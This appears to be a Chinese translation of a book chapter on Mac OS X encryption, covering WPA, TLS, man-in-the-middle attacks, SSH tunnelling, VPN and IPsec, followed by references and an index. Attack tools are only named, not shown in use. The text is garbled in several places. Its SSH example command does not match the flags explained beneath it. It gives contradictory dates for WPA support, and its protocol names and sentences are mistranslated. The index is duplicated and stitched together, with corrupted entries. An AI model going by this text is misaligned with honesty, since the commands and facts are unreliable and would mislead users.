WPA 主要设计为 WEP 的自然替代品，由 Wi-Fi 联盟开发，作为 WEP 与其计划中的继者 802.11i 标准之间的过渡解决方案。WPA 基于 IEEE 802.11i 的草案 3，使用带有 48 位 IV 的 128 位 RC4 密码流加密。WPA2 符合最终的 802.11i 标准，并整合了高级加密标准（AES）块密码之一。WPA 加密支持被纳入 macOS X 10.3（2003 年发布）。

2005 年 7 月发布的增量更新 macOS X 10.4.2 为 macOS X 引入了对 WPA 的支持。所有的 Airport Extreme Macintosh （以及 Airport Extreme Base Station 和 Airport Express）在为 Airport 设备发布 4.2 更新后被认为符合标准。自 2006 年 3 月 13 日起，包含 WPA 对于任何寻求 Wi-Fi 认证的新设备都是强制性的。因此，较新的 Apple 路由器基站和卡具有特定的硬件芯片，帮助处理 WPA 中包含的 AES 加密算法。

## WPA 威胁

它们可能名称相同，但 WPA 和 WPA2 非常不同。作为 WEP 漏洞的临时解决方案，原始方案建立在 WEP 使用的相同的 RC4 流密码之上，很大程度上是为了支持旧硬件。它通过利用时间密钥完整性协议（TKIP）改进了 WEP，这是一种为每个数据包单独分配唯一密钥和数据包密钥的新方法，有助于防御针对 WEP 的攻击。

WPA 或 WPA2 的潜在用户在设置无线网络时有两个不同的选择。第一个是 WPA Personal（WPA 个人版），它使用 WPA-PSK（WPA 预共享密钥），完全依赖 TKIP，可以归类为基于密码的普通设置，涉及在少数受信任的主机之间共享秘密密钥。第二个是 WPA Enterprise（WPA 企业版），它要求运行在本地无线局域网（WLAN）上的远程拨号用户服务器（RADIUS）来处理单个客户端主机的身份验证。这为用户提供了唯一的登录方式，从而提供了更安全的无线技术实现。配置好的 RADIUS 服务器还使无线接入点的通用配置成为可能，增强对漫游客户端的支持。许多大型机构会因为 WPA Personal WLAN 中的用户超过十个而使用这种设置，因为更好的加密安全带来的益处远大于对共享密钥的任何潜在威胁。macOS X 10.5 Leopard Server 目前开箱即支持 RADIUS，使用 10.4 Tiger Server 或 OS X 客户端服务器可以在 freeRADIUS 项目（http://www.freeradius.org/）访问这些功能。

## 熵、密码与 WPA

选择 WPA 的用户应该意识到，像 WEP 一样，它有自己的缺陷。安全研究人员 Robert Moskowitz 在 2003 年底发表了一篇名为《WPA 接口中密码选择的弱性》的论文，其中详细的针对 WPA 预共享密钥的威胁是非常真实的。Moskowitz 建议可以利用毫无防备的用户经常在基站中输入的较为简单的密码。由于创建 WPA 密码时可以收集的随机性或“熵”有限，使用此类密码为破解它们所采用的网络提供了手段。

在安全语文中，熵可以被视为现代加密系统中不确定性的度量。一个东西越不确定，它的熵就越大。在分析加密实现时，量化熵至关重要，因为一个系统提供 128 位或非 256 位密钥长度。

## 安全通信

加密与平台之间明显的区别之一是安全套接层（SSL）。本章现在将检查苹果和其他平台采用的各种方法。

### Diffie 和 Hellman，公钥交换

为了理解它们，我们必须首先简要回顾该机制的历史：公钥加密（PKE）。

PKE 是从许多寻求隐私手段的个人工作演变而来的。他们的挑战是创建一种方法，让从未通信过的个人能够在不传输共享密钥的情况下加密数据。在多年的研究和分析之后（通常面临来自美国政府的广泛反对），在 1976 年取得了突破（或者说是向公众公布），当时使用被称为“陷门单向函数”的复杂数学公式使得构造两个两个部分的加密密钥成为可能。

拥有这些密钥的用户只需将双部分密钥的一部分与对方共享即可启动通信。该公部分随后就变成了回传给原始用户的任何秘密消息的加密通道。一旦双方交换了公钥，就可以随意发送模糊消息，每个人使用密钥的私有部分（必须保持保密）来解密输入数据。显然，整个消息的重建取决于用户拥有公部分和私部分的副本。通过反转过程，并使用个人持有的私钥对消息进行签名，也可以（使用该个人的公钥）证明消息来自该密钥的所有者。该交换技术以 Whitfield Diffie 和 Martin Hellman 命名，他们是发现该技术并将其引入公共领域的美国密码学家，Diffie-Hellman 密钥交换无疑是 20 世纪最重要的发现之一。它催生了现在作为世界标准的加密和数字签名技术，使数十亿用户能够在合理确信数据安全的情况下，对个人和业务交易进行加密。

现在被称为传输层安全（TLS），它已成为目前最常用的加密形式，并被常规用于许多其他协议中。它通过在标准传输控制协议（TCP）/IP 协议（IP）数据包中稍低的层次上工作，实现了这种灵活性。Apple 的 OS X 在子系统中内置了 `OpenSSL`，可以通过终端应用程序中的命令行直接访问，但大多数用户只有在浏览网页和访问安全站点时才会遇到 SSL/TLS。

### 中间人攻击

在传输过程中保护数据安全是一回事，但提供数字手段来证明接收者的身份完全是另一回事。在初始的密钥交换期间，存在着一个脆弱的时间窗口，在此期间内，攻击者可能修改端点之间的密钥交换数据，并重定向加密通信以获取其利益，在此过程中为双方制作伪造的数字签名。网络上的静默攻击通常被称为中间人攻击（MITM）。由于其背后的工具和方法通常是被动性的，因此它们在发生时往往留下很少或没有痕迹。

MITM 攻击可以使用强大且广泛使用的网络分析工具 `Wireshark` 和 `Dsniff` 来进行。这些工具中的每一个都包含了静默捕获流量或对各种加密协议执行主动攻击所需内容，包括用于密码密码的特定机制。尽管这些工具最初是在 Linux 和 BSD 上编写的，但它们已被移植到 OS X。可以通过 Fink 和 MacPorts 项目下载每种工具的副本，或者可能在局域网（LAN）上以隐藏杂乱模式使用其中任一个工具，这通常允许捕获原本发往其他节点的网络流量。对于交换式网络，`Ettercap` 提供了一种强大的方法来对地址解析协议（ARP）主机进行投毒，并将目标流量流重定向到攻击者的机器。

使用此类功能强大的工具时应极其谨慎，仅在私有网络上使用，且仅由网络所有者使用。在恶意之手中，它们对安全和明文协议具有潜在的极大危险。这种复杂威胁的存在有力地提醒着我们：在公共网络上保持极端谨慎以及对安全必要性的教育，仍然是防止意外入侵的最佳防御。

### 证书权威

SSL 和 TLS 设计用于通过使用受信任的中心化存储库（证书权威）来保护免受 MITM 攻击。证书权威允许个人在首次与银行连接以及接受任何进一步通信选项之前，验证银行的公钥。Verisign 和 Thawte 是提供此类在线服务的两个知名机构。

尽管这种方法被设计为安全，但一些批评者指出，它所呈现的中心化信任模型与互联网去中心化且不可信任的环境格格不入。因此，它在操作上有局限性，并且因为它要求为网站提供全安全，通常伴随着高昂价格的商业限制。

现代用户应该对任何未能向第三方证书权威识别身份的网站或其他流量保持极端谨慎，并意识到安全 Web 证书的必要性。这些证书需要费用，并不是所有小型网站都拥有，但较大的公司已被要求使用它们，且用户需求正迅速推动所有站点对它们的采纳。

上述的许多攻击工具利用了“人为因素”，利用了人们对证书权威对于数据安全重要性的普遍无知和自满。考虑到所有加密网络流量的隐私性（包括密码和其他授权访问数据）都面临风险，在这些领域进行公共教育显得既必要又紧迫。

### 安全通信：建议总结

- 使用能够自动检查证书的浏览器。
- 查看安全站点的页面信息，以检查安全证书是否使用了高强度加密并看起来是真实的。
- 使用支持最新加密并允许配置 SSL 和 TLS 设置的更新浏览器。
- 如果可能，配置浏览器仅使用高级加密算法（例如 AES 256 位）。
- 避免访问任何证书不进行自动验证且显示错误信息的网站。
- 在公共网络上保持极端谨慎，并尝试通过安全协议（例如 SSH 或 VPN）对流量进行路由。
- 管理员可能希望使用 ARP 包监控器来观察 ARP 攻击的迹象，或使用工具搜索局域网上的数据包嗅探。

## Secure Shell 与隧道

### 开源努力

自原始形式的 OS X 引入以来，将完整的开源技术整合到 Apple 操作系统的底层已成为可能。许多现代平台依赖这些通用公共许可证（GPL）框架和程序作为背景资源，这些资源履行了许多重要功能、加密服务，并被认为是任何平台稳定、强大的补充。将它们采纳到任何系统中，消除了从零开始构建类似服务的需要，同样重要的是，它为用户提供了经过长期充分测试的技术。

令人惊讶的是，许多 GPL 服务完全由志愿者运行，他们将时间投入给长期的编程社区，这些社区共同提供了当今提供的最维护良好、最受审查且由社区支持驱动的开源程序。这群利他主义者军无疑是数字时代的无名英雄。

### SSH

具有惊人灵活性的开放 Secure Shell 协议（OpenSSH）是一项自愿努力，`OpenSSL` 也是如此。SSH 设计用于取代各种常用的 UNIX 服务——Telnet、login、rsh 和 rcp——这些服务在很大程度上由于依赖未加密的明文而极易受到攻击。SSH 的主要功能最初是通过远程机器上的“shell”环境提供到另一个主机的加密远程连接手段。然而，随着它作为一种协议的演变，它内置的在安全隧道内将通常未加密的服务从一个传输到另一个地方的能力，使其成为封装几乎任何 UNIX 命令的明显选择。因此，由于它提供了安全文件传输（SFTP）命令，Secure Shell 2（SSH2）已为广泛使用的明文文件传输协议（FTP）提供了很好的替代方案。Secure Shell (SSH) 拥有与原始命令几乎相同的语法，额外的好处是它们是使用强加密提供的。

SSH 的优势在于支持在数据传输中使用许多利用公钥加密的强加密算法。它支持使用 RSA 和 DSA 生成密钥，而 SSH2 提供了 AES、3DES、Blowfish、Arcfour (RC4) 和 Cast 作为加密算法。

> “协议版本 1 允许指定加密加密。支持的值为 '3DES'、'Blowfish' 和 'DES.'3DES（三重 DES）使用三个不同的密钥进行加密-解密。它被认为是安全的。Blowfish 是一种快速算法；它看起来是安全的且比 3DES 快得多。DES 仅在协议 1 的 SSH 客户端中支持。由于加密缺陷，强烈建议不要使用。”
>
> “协议版本 2，cipher_spec 是按偏好排序的加密算法列表。支持的加密算法有：3DES-CBC、AES128-CBC、AES192-CBC、AES256-CBC、AES128-CTR、AES192-CTR、AES256-CTR, arcfour128, arcfour256, arcfour, Blowfish-CBC 和 Cast128-CBC”

SSH 在提供安全不安全网络通信的方法方面迈了巨大一步。目前，得益于协议身份验证和密钥交换启动阶段内置的复杂挑战与响应机制，SSH 版本 2 被广泛认为足以防御所有已知的 MITM 攻击。SSH 1 因为缺乏这些机制而可以被利用，因此如果可能，不应使用。

在连接服务器时采用 `-2` 参数很重要，这会强制使用版本 2。如果连接时未规定这一点，则存在像 `Ettercap` 这样的网络嗅探器悄悄将任何连接降级到较弱的版本 1 的可能性，即使服务器支持版本 2。这对于整个 SSH 来说是一个严重威胁，并提醒我们：尽管 SSH2 目前被认为是安全的，但配置过程中的疏忽或错误会导致即使是最强的加密也变得虚同无物。

SSH 加密通过结合端口转发功能充分展示了其多功能性，该功能被协议用于加密隧道。使用 `-L` 参数，可以将本地客户端的特定端口转发到服务器上的特定端口。相比之下，`-R` 参数允许将远程端口转发到本地机器。这两个选项可以有效地让本地程序通过 SSH 服务器重新路由连接，无论该程序是否支持数据代理选项。执行这些功能需要配置特定的端口，理想情况下用户应避免使用服务器端可能使用的低位范围端口。通常使用 10000 到 65000 之间的端口是一个好主意。

通过 `-D` 参数，SSH2 还引入了此前可能的将该协议作为虚拟 SOCKS 服务器。在 SSH 最实用的功能中，这提供了一种允许本地连接通过安全隧道转发的简单方法。用户只需要在所需的程序中正确配置代理设置，将 `localhost` 或 `127.0.0.1` 指定为地址，并使用 SSH 连接字符串中定义的相同本地端口。如果没有代理设置，可以使用 `Socat`（来自 Fink 或 Darwin 端口）等工具帮助数据包通过 SSH 代理通过。这种方法的优点是用户无需在每次连接时都配置他们想要连接的特定服务器，与 `-L` 和 `-R` 选项也是如此。为了增加安全性，确保域名服务 (DNS) 查询通过隧道转发可能是明智的，以防止 DNS 查询将连接信息的痕迹泄露到外部。

这种灵活且最透明的 SSH 使用方式提供了良好的安全级别，且应用简单直观。它也可以为缺乏强加密的网络提供额外加强的方法，例如那些仍在使用 WEP 的无线网络。这是一个被认为是强力的连接字符串示例：

```
ssh server.name.com -l username -2 -c aes256-cbc -C 40000 -v
```

- `-2` 强制使用协议的第 2 版本
- `-c aes256-cbc` 请求 AES 256 位加密
- `-C` 压缩数据（在快速连接上可能不需要）
- `-N` 不执行远程 shell
- `-D 40000` 请求 SOCKS 模式并在本地端口 40000 上开启
- `-v` 显示详细模式

### SSHD

OpenSSH 在 MacOS X 中的多功能性并不仅于此。通过在非显眼端口上运行一个经过正确配置的受安全 Shell 守护进程 (SSHD)，可以使用类似于上述示例的配置，通过强加密的 SSH 隧道为服务器提供单一的安全入口点。

在某些情况下，取决于服务器的设置，这可以极大地减少不必要的端口开放的风险，并且可以通过在 SSH 内重定向协议（如 Apple Remote Desktop/VNC、Webmin 甚至是 OS X Servers 系统管理工具）来执行远程管理。为了额外的安全，这种设计可以扩展以包含来自 `fwknock` 等工具（可通过 OS X 上的 Fink 和 MacPorts 获取）的强大端口敲击功能，这些工具可以使用单包授权 (SPI) 隐藏正在运行的服务并保护它们免受零日漏洞的攻击。只要服务器设计中的其他安全措施同样认真，就应该能够有效地使 OS X 机器防御当今的大多数攻击。

通过 `/etc/sshd.conf` 在 OS X 上设置 SSH 时，尽可能关闭许多选项是一个好主意。然而，通常有几个设置是明智的，并且有助于加强服务器防御外部攻击。针对 SSH 的大量暴力破解和字典攻击是可以避免的，因此尽可能关闭普通的基于密码的登录，仅使用公密钥进行身份验证（最好设置密钥密码），并仅配置受限制组用户登录。通过设置 `chroot` 程序并有效地对远程用户实施禁闭，可以获得进一步的安全性。

## VPN 加密

### VPN

虚拟专用网络 (VPN) 是一种系统，广义来说，它允许客户端机器与远程网络进行远程通信，就像该客户端是有线局域网的一部分一样。为了赋予此类连接其所需的安全性，连接流中必须发生不同的加密方法以允许用户操作。

### PPTP, L2TP 和 OpenVPN

MacOS X 为两种最常用的 VPN 提供原生支持：点对点隧道协议 (PPTP) 和数据链路隧道协议 (L2TP)。尽管它们非常流行，但 PPTP 和 L2TP 都存在已知的漏洞。后者备受关注的一个极佳例子是 OpenVPN (http://openvpn.net/)。它在用户空间运行而非内核中。

### IPsec

IPsec 协议是一种数字数字加密和签名 TCP/IP 数据包的方法。由于它运行的层次比其他协议更低，并且部分归功于其配置和管理的纯技术性质（很少考虑用户交互），IPSec 是一项被广为人知的技术，但尚未充分发挥其潜力。此外，它的启动由互联网密钥交换 (IKE) 协议驱动，该协议以复杂而闻名，可能会增加用户的困惑。

#### 五层 TCP/IP 模型

TCP/IP 模型的第三层被称为网络层。以下显示了根据该设计的 TCP/IP 基本层：

| 层级 | 名称 | 协议 |
| :--- | :--- | :--- |
| 5 | 应用层 | HTTP, SSL/TLS, SSH, FTP, POP, IMAP, DNS, DHCP |
| 4 | 传输层 | TCP, UDP |
| 3 | 网络层 | IPSec, IPv4, IPv6, ARP, ICMP (Ping) |
| 2 | 数据链路层 | 802.11 (WLAN), 以太网, PPTP, L2TP, PPP, ISDN |
| 1 | 物理层 | 调制解调器, 以太网, 同轴电缆, 光纤 |

#### IPv6

IPv6 旨在取代 IPv4 互联网的基础。它于 1992 年由互联网工程任务组 (IETF) 首次提作为标准。


尽管 MacOS X 和其他平台多年一直包含了对某些直接 IPv6 服务的支持，但其广泛普及仍然缓慢，在全球范围内尚未被普遍使用。这部分是因为对于许多客户端节点（通常是那些运行网络地址转换 `NAT` 的宽带路由器和调制解调器）来说，与 IPv6 完全集成非常困难。解决此问题的方案逐渐出现，MacOS X 现在已提供一种解决方案，名为 `Miredo`，它构建自 `Teredo` 项目，提供了一种在通往 IPv6 节点的路由中成功穿透 `NAT` 的巧妙方法。尽管对于那些加密通信前沿的人士来说，这种支持非常令人兴奋，但其开发仍处于非常早期阶段。（更多信息请访问 <http://www.remlab.net/miredo/>）。

# 第 8 章 · 加密技术与操作系统

# 总结

结论，Apple 已经从 OS9 的暗淡时代走了很远，现在 MacOS X 内部提供了丰富的加密选择。通过将大量的强加密工具集成到 MacOS X 中，Apple 为 Macintosh 用户提供了明显且即时改进的安全选项，但该公司也表明它仍然紧紧关注着未来，这种姿态在过去曾是它的救星。

另一方面，尽管苹果声称正在使用开源软件，但它尚未履行其声明的在自家后院与开源项目紧密合作（例如 `Open Darwin` 项目）的承诺。鉴于今天许多加密服务和程序都是使用纯开源平台大量开发的，并源于显然致力于开放精神本质的开源社区；苹果却露出了它真实的、传统意义上的“异同不同”中流出的企业色彩。

对于全球数字安全社区，以及其他领域的几代计算机专业人士来说，Apple 始终代表了常识战胜商业主义的最佳希望。通往真正安全的道路是显而易见的。世界期待 Apple 上路。

# 参考文献

- Appelbaum, J., Calandrino, J.A., Clarkson, W., Feldman, A.J., Felten, E.W., Halderman, A.J., Heninger, N., William, P., & Schoen, S.D., 2008, “We Remember: Cold Boot Attacks on Encryption Keys,” 于 2008 年 2 月 25 日，<http://citp.princeton.edu/pub/coldboot.>

- Driben, G., “How Mac OS X Implement Password Authentication Part 2,” Dave Driben 的博客，于 2008 年 2 月 12 日，<http://www.driben.org/blog/archives/2006/04/28/os_x_passwords_2/>。

- Fluhher, S., Mantin, I., Shamir, A., 2001, “Weaknesses in the Key Scheduling Algorithm of RC4,” Selected Areas in Cryptography, 第 1–23 页。

- IEEE, 2004.,“802.11i IEEE Standard for information technology – Amendment 6: Medium Access Control (MAC) Security Enhancements,”IEEE Standards Association,于 2008 年 2 月 3 日，<http://standards.ieee.org/getiee802/download/802.11i-2004.pdf>.

- Johnston, M., “Mac OS X stores login/Keychain/FileVault passwords on disk, 2004,” Security Focus，于 2008 年 3 月 2 日，<http://www.securityfocus.com/archive/1/367116/2004-06-24/2004-06-30/0>

- Levy, S., 2000, Penguin Books, London.

- Moskowitz, R., 2003, “Weakness in Pasphrase Choice in WPA Interface Wi-fi Net News，于 2008 年 1 月 28 日，<http://www.finewetnews.com/archives/002452.html>.

- NIST ITL, 1997, “Advanced Encryption Standard - ITL Security Bulletin,”National Institute for Standards and Technology USA,于 2008 年 2 月 7 日，<http://csrc.nist.gov/publications/nistbul/itl97-02.txt>.

- Schneier, B., 2000, “Secrets & Lies,”Wiley Publishing, Inc., Indianapolis, Indiana.

# 索引

## A

- Abrams, Randy, 134
- `ACID` (入侵数据库分析控制台), 196
- Activity Monitor (活动监视器), 36–37
- address resolution protocol (`ARP` 解析协议), 200
- Address Space Randomization (`ASLR` 地址空间随机化), 124, 301
    - 概念与基础, 269
    - 在 Leopard 上的缺点, 271
    - 内核内存缓冲区报告, 270
- Month of Apple Bugs (`MoAB` 苹果漏洞月)
- application enhancer (`APE` 应用程序增强), 273
    - 后果, 273
    - 格式字符串漏洞, 276–277
    - Quick Time 漏洞, 274
- Month of Kernel Bugs (`MoKB` 内核漏洞月)
    - 文件系统相关漏洞, 280
    - 堆缓冲区溢出漏洞, 281
    - `paxstest` 工具, 269–270
- Advanced Encryption Standard (`AES` 高级加密标准) 块密码, 298–299
- Advance Settings (高级设置), `CCC`, 13
- Analysis Console for Intrusion Databases (`ACID`), 196
- Antibody (抗体, 捕猎病毒), 282
- anti-malware program (反恶意软件程序), `avast!`, 147–148
- anti-malware technology (反恶意软件技术), 132
- anti-rootkit program (反 rootkit 程序), 132
- `APE` (应用程序增强), 273, 279
- Apple Developer Tools (Apple 开发者工具), 171–172
- Apple Mail.app bug, 54–55
- `AppleScript`, 87, 90
- Apple security features (Apple 安全特性), 125
- Apple’s SimpleCarbon, binary package (二进制包安装), 188–189
- Apple’s X11 Installation (Apple X11 安装), 171–172
- attacker’s control (攻击者控制), 寄存器, 26
- Apple’s deactivation (Apple 去激活), 144
- Apple’s library randomization (Apple 库随机化), 124
- Apple’s update mechanisms (Apple 更新机制), 95
- application-specific malware (特定应用程序恶意软件), 128
- Archibald, Neil, 62
- `ARP` (地址解析协议), 200
- asymmetric ciphers (非对称密码), 293
- authentication (认证), 109
- AutoStart disabling of (禁用 AutoStart), 144
- and Mac users (以及 Mac 用户), 94
- and- AutoStart variants (AutoStart 变体), 92–93
- AutoStart worm (AutoStart 蠕虫), 72
- `avast!` Mac Edition, 147–148
- algorithmic scanning (算法扫描), 139
- antivirus (反病毒软件), 155
- as-virus (病毒), 143
- as-attacks (攻击), 102–103
- codec (解码器), 96
- Code 252, system and application infector (系统和应用程序感染器), 83
- Code 98, system and application infector (系统和应用程序感染器), 84
- Command and Control (`C&C` 命令与控制机制), 77–78
- command prompt (命令提示符), 47
- compiling vs. porting, open source software, code (开源软件编译与移植), 180–181
- Comprehensive Perl Archive Network (`CPAN`), 172
- commands (命令), 176
- configuring (配置), 173–174
- interactive mode of (交互模式), 175–176
- `dns-mine.pl` script, dependency problem (`dns-mine.pl` 脚本依赖问题), 175
- Perl dependency (Perl 依赖), 175
- compromised matches (受损匹配), 77–78
- computer starts up (电脑启动), 3
- CrossOver Office buffer overflow (CrossOver Office 缓冲区溢出), 37–38
- `gdb` interface (`gdb` 接口), 40
- links for OSX (OSX 软链接), 46–48

## C

- `calc.exe`, 43. 参见 PowerPC shellcheck
- Carbon Copy theoretically (`CCC`) 数据备份, 11
- Macintosh formatted volumes (Macintosh 格式化卷), 12
- Carbon framework (Carbon 框架), 263–264
- `C&C` servers (`C&C` 服务器), 77–78
- Certificate Authorities (证书机构), 312

## D

- DarwinPorts package. 参见 OpenDarwin
- Data Encryption Standard (`DES`) algorithm (数据加密标准算法), 295–296
- Data Fork (数据叉), 8
- `_DATA` region, `libSystem`, 57–58
- DelProtect INIT, 144
- desktop AV software (桌面反病毒软件), 129
- detection technologies (检测技术), 142
- diffie-Hellman Key Exchange (Diffie-Hellman 密钥交换), 310–311
- Directory Scan (目录扫描), 7–8
- disinfectant, AV scanner (消毒剂, 反病毒扫描器), 145
- `dns-mine.pl` script, dependency problem (`dns-mine.pl` 脚本依赖问题), 175–176
- `dylib_stubs` (`dylib` 存根), 267–268
- `dylib` functions (dynamic library) (动态库函数), 261–264

## E

- `EFI` (Extensible Firmware Interface 扩展固件接口), 4
- interactive console (交互控制台), 5
- EICAR test file (`EICAR` 测试文件), 133
- purpose of (目的), 134
- `EIMS` (Eudora Mail Server), 21
- `EIP` address 2-byte representation of (`EIP` 地址的双字节表示), 31
- overwriting (覆盖), 61–62
- ethereal network analyzer (ethereal 网络分析仪), 204
- etnetack, packet-switched network (etnetack 包交换网络), 311
- Eudora Mail Server (`EIMS`), 21
- extensible authentication protocol over local area network (`EAPOL`) (局域网扩展认证协议), 242
- Extensible Firmware Interface (`EFI`), 4

## G

- `gdb` interface (`gdb` 接口), 40
- GDB Listener (`GDB` 监听器), 33
- generic detection (通用检测), 140
- GPS preferences (`GPS` 选项), 229

## H

- Hash functions (哈希函数), 294–295
- HC 9507 and HC 9603, 82
- HeaderBuilder, 9–10
- heterogeneous malware transmission (`HMT`) (异构恶意软件传输), 91–92
- heuristics (启发式算法), 140–141
- heuristic scanning technology (启发式扫描技术), 142
- Hierarchical File System (`HFS`) (分级文件系统), 88, 93
- `HMT` (heterogeneous malware transmission) (异构恶意软件传输), 128–129
- hook functions (钩子函数), 263
- host computer worms (主机蠕虫), 73
- HyperCard infectors (HyperCard 感染器), 81–86
- hypetext transfer protocol (`HTTP`) (超文本传输协议), 194
- hypetext transfer protocol over secure sockets layer (`HTTPS`) (基于安全套接字的超文本传输协议), 1193

## I

- iAdware (i广告软件), 49–50, 52
- `i` command (`i` 命令), 176
- `_IMPORT` sections writable status (`_IMPORT` 段可写状态), 59
- Init 29 and Init 1984 (Init 29 和 Init 1984), 84
- 电气电子工程师学会 (`IEEE`), 305
- 互联网消息访问协议 (`IMAP`), 196
- iPhoto Photocast XML 字符串格式漏洞, 276–277
- 映射, 228
- 使用接口, 233–234
- WEP 破解方法, 238–249, 242
- 窗口视图按钮, 234
- WPA 破解, 242
- `IPsec` 协议, 317–318
- `IPv6` 协议, 318–319
- iSight 摄像头
- 初始化, 254
- 光二极管 (`LED`), 255
- 对 应用程序接口 (`API`), 253
- `iSOAP`, 177

## J

- 联合图像小组 (`JPEG`), 244

## K

- 内核保护失败错误, 56–57, 61
- KisMac
    - 无线发现工具, 306
    - 使用其攻击 WLAN 加密, 238
    - 暴力破解攻击和字典列表攻击, 243
    - 兼容的网卡和芯片组, 225
    - 配置, 220–221
    - 使用其取消客户端认证, 240
    - 过滤选项, 223
    - 图形用户界面, 236
    - 地图服务器和地图类型, 230–231
    - 菜单，声音效果配置, 224
    - 渗透测试, 238
    - 偏好窗口, 227
    - 拒绝包, 240–241
    - 卫星地图, 232
    - 扫描选项, 222
    - 声音偏好, 223–224
    - 流量引用, 226
    - 使用 GPS 设备, 228–229
    - 选项, 236
    - WarDriving
- Kismet 声音偏好, 224

## L

- 2 层层隧道协议 (`L2TP`), 317
- Leopard 应用防火墙, 252–253
- 轻量级目录访问协议 (`LDAP`), 202
- 轻量级扩展认证协议 (`LEAP`), 243
- 登录窗口, 52–53

## M

- MacDrive6/7
    - 选项, 15
    - Windows 程序, 13–14
- Macintosh 文件系统, 8
- Macintosh Forensic Suite
    - 目录扫描工具, 7–8
    - FileSpy, 8–9
    - 取证套件工具栏, 6–7


## 索引

### A
- **AutoStart 蠕虫**, 72

### B
- **BSD 子系统**，安装, 166, 167

### C
- **calc.exe 载荷**, 43
- **CrossOver Office**, 模拟工具, 37–38
- **CrossOver Office 利用**, 37–39
- **cpan 程序**, 173–178

### D
- **DarwinPorts**, 使用, 210–211
- **DES 算法**, 295–296
- **Diffie-Hellman 密钥交换**, 310–311
- **DNSChanger**, 94
- **DMA**, 修补, 302–303

### E
- **EFI 和签名密钥**, 4
- **EFI 交互式控制台模式**, 5
- **Ettercap**, 嗅探和, 网络, 192–193

### F
- **fink**, 187
- **fink 命令行**, 190–192
- **FileVault DMA**, 299–302
- **Firewire**, 301–302

### G
- **gcc 编译器**, 171–172

### H
- **HeaderBuilder**, 9–10
- **HyperCard 病毒**, 81–83

### I
- **ID 存根**, 267–268
- **IPsec 协议**, 318–319

### J
- **john**, 密码破解, 201–202

### K
- **Kismet**, 199–200

### L
- **libSystem**, 264–268

### M
- **Mac 特有的恶意软件病毒**, 71
  - **AutoStart 蠕虫**, 72
  - **HyperCard 病毒**, 81–83
  - 以及 **Mac 用户**, 129
  - **根内核程序 (rootkit)**, 76–77
- **MacMag**, 85, 86
- **MAC (媒体访问控制)**, 226
- **Mac OS 9**
  - 客户端利用, 24
  - 以及 **EIMS way**, 21
  - **Manager 漏洞**
  - **SetUID root 权限**, 27–28
  - 内存利用, 23
  - 内存布局, 20–21
  - 安全问题, 18, 26
  - 密码存储接口, 28
  - 未授权访问, 29
  - 基于 unicode 的利用, 29–32
- **Mac OS X**. 另见 **Mac OS X Leopard**; **Mac OS X Tiger**
  - 启动过程, 3
  - **EFI 和签名密钥**, 4
  - **EFI 交互式控制台模式**, 5
  - **BSD 子系统**，安装, 166, 167
  - 命令行 **shell** 接口, 166
  - **bash shell**, 167
  - **Terminal** 程序, 169
  - **TextEdit** 程序, 168
  - 在上面编译程序, 180
  - **CrossOver Office**, 模拟工具, 37–38
  - 宏病毒, 88–89
  - 以及恶意软件
  - **Apple 的更新机制**, 35
  - 认证, 109
  - **DNSChanger**, 94
  - **OSX/DNSChanger**, 96–99, 105, 107, 115
  - **OSX/Leap 和根内核程序**, 95
  - 自启动 vs. 用户启动, 102–103
  - **MC 用户的漏洞**, 94, 96
  - 内存映射, 62
  - 模块, 5
  - 开源工具，编译和移植
    - **Apple Developer Tools** 选项, 171–172
    - **cpan** 程序, 173–178
    - **gcc** 编译器, 171–172
    - **Perl** 脚本, 172
    - **UNIX** 工具, 170
    - 窗口, 178–180
  - 在上面安装端口软件, 181
    - 二进制包, 188–189
    - 发行文件, 182
    - **fink**, 187
    - **ink Commander**, 190–192
    - **OpenDarwin**, 183–186
    - 包管理器, 182
    - 源码包, 189–190
  - **PowerPC 硬件**
    - 调试, 33
    - 安全和加密（见 **Mac OS X 安全**）
    - 安全, 59
    - 基于 ad 的内容, 51
    - **CrossOver Office 利用**, 37–39
    - 格式字符串, 56
    - 登录窗口, 52–53
    - **Metasploit**, 54–55
    - 密码存储接口, 28
    - 弹出, Ad, 54
    - **PowerPC 二进制文件的可利用性**, 32–33
    - **Rosetta 利用**, 32
    - **Ruby** 脚本, 65–66
    - 共享内存, 49
    - 特洛伊, 48
    - 未授权访问, 29
    - 基于 unicode 的利用, 29–32
    - **Winamp**, 39–45
    - 可写和不可写内存, 57–58
    - 符号链接, 46
    - **Visual Basic for Applications (VBA)** 工具, 91
    - **map** 工具, 42
- **Mac OS X Leopard**
  - 数据安全, 124
  - 防火墙保护, 126
  - 菜单层次, 237
- **Mac OS X Leopard (续)**
  - 安装, 212–213
  - 远程安全扫描, 194
  - 防止未授权访问, 211
  - 出箱即用安全, 123–124
  - 渗透测试, 236, 238
  - 观察和重放, 201
  - 嗅探和 **Ettercap**, 网络, 192–193
  - **ether** 和 **TCPdump**, 199
  - **ping** 和 **fping**, 203
  - **john**, 密码破解, 201–202
  - **Kismet**, 199–200
  - 诊断取证工具, 197
  - **Nemesis**, 网络, 193–194
  - **netcat**, 201
  - **OpenSSL**, 195–196
  - **Perl**, **Python** 和, 203
  - **Snort**, 196
  - **SSH** 和 **GnuPG**, 195
  - 设备和 **Probe**, 198
  - 隧道, 196
  - **tcptraceroute**, 204
  - **TCP 封装** 和 **Bastille**, 197
  - **visualroute**, 199
  - **Whisker** 和 **Nikto**, 网络扫描, 194–195
- **Mac OS X Tiger**
  - 调试, 266–267
  - 钩子函数, 263
  - **map()** 调用函数, 262
  - **SQLite** 函数, 264
  - 初始化, 254
  - 对 **应用程序接口 (API)**, 253
  - **Leopard 防火墙**, 252–253
  - **libSystem**, 264–268
  - **Quicktime** 进程, 265–266
  - 栈溢出利用
    - **C 数据结构**, 256
    - **map_shellcode()** 函数, 257, 259
    - 负载缓冲区, 260
    - **map** 工具, 267
- **MacOS X 10.5 Leopard Server**, 297–298, 308
- **MacOS X 安全和加密**
  - 加密盐值 (**Salt**), 297
  - **DES 算法**, 295–296
  - 哈希函数, 294–295
  - 密码破解和工具, 295
  - 对称和非对称加密, 293–294
- **Windows LAN Manager (LM)**
  - 系统密钥串 (**Keychain**), 301
  - **ID 存根**, 267–268
- **MacBug**, 21, 25
- **MacScan** 反间软件应用, 152
- **Mac 扫描器**, 138
- **Mac 安全**, 152
- **Mac 特有的恶意程序**, 128, 129
- **Mac Terminal**, 166
- **Mac 威胁**, 137, 143
- **Mac 特洛伊**. 另见 **OSX/DNSChanger**
- **Mac 用户**
  - 触发方法, 105, 108
  - 潜在攻击, 77
  - 预防措施, 110–111
  - 安全意识, 98–99
  - 以及 **Windows 用户**, 98–99, 101
  - 文字处理程序和宏恶意软件, 80–90, 92
